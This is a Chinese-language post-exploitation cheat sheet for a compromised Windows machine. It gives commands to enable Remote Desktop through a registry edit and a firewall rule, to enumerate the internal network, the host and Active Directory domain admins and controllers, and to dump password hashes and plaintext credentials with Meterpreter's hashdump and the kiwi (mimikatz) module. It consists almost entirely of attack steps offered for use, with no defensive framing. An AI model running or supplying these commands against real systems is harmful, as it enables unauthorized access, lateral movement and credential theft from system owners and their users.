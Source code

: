1.开启远程桌面  
  
修改注册表：REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f 开启 RDP。  
  
添加防火墙例外规则：netsh advfirewall firewall add rule name="Remote Desktop" protocol=TCP dir=in localport=3389 action=allow 允许 3389 端口入站。  
  
2.内网信息收集  
  
ipconfig /all： 获取本机 IP、网关、DNS 等关键网络配置。  
  
arp -a： 查看 ARP 缓存，发现同一网段活跃主机。  
  
net view： 查看同一域或工作组内的其他主机。  
  
3.主机信息收集  
  
systeminfo： 获取系统详细信息（OS版本、补丁、安装时间等），用于评估价值、寻找其他漏洞。  
  
whoami /priv： 查看当前用户权限，寻找提权机会（如 SeDebugPrivilege 可用于注入进程）。  
  
net user / net user [username] / net localgroup administrators： 查看本地用户和组，特别是管理员组成员。  
  
net share： 查看共享资源。  
  
netstat -ano： 查看网络连接和监听端口，发现内部服务、与其他主机的连接。  
  
tasklist /svc / tasklist： 查看运行进程及服务，寻找高权限进程或安全软件。  
  
query user： 查看当前登录用户（用于判断是否有人值守）。  
  
4.域环境探测  
  
net group "domain computers" /domain： 列出域内所有计算机（需要域权限）。  
  
net group "domain admins" /domain： 列出域管理员组成员（关键目标）。  
  
net group "domain controllers" /domain： 定位域控制器。  
  
nltest /dclist:[domainname]： 查询域控制器列表。  
  
dsquery 命令（如果可用）：更强大的 Active Directory 查询工具。  
  
5.hashdump获取密码哈希  
  
hashdump  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRPlZNn9Q29k9HHQUrb6PsRrvjCwrjAVNQkP0icVibOsJws8GPYhYO9Zag/640?wx_fmt=png&from=appmsg "")  
  
6.使用kiwi模块获取凭证  
  
（1）加载kiwi模块  
  
load kiwi  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkR4YA8nBI4cvPI8Ttm9zNIcKVgHUTZxxlZxWmnLAbWlSJM54bOD2VzRA/640?wx_fmt=png&from=appmsg "")  
  
（2）列举所有明文密码、哈希等   
  
creds_all   
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/icCXA7Jkf1VEZAE85lt5jvYjXx5rzdNkRFzibOhibicuicU7tBVicgTmWA0CLjTsFGuZYmEiaemvJVMQrAw18Be3MwKxg/640?wx_fmt=png&from=appmsg "")  
  
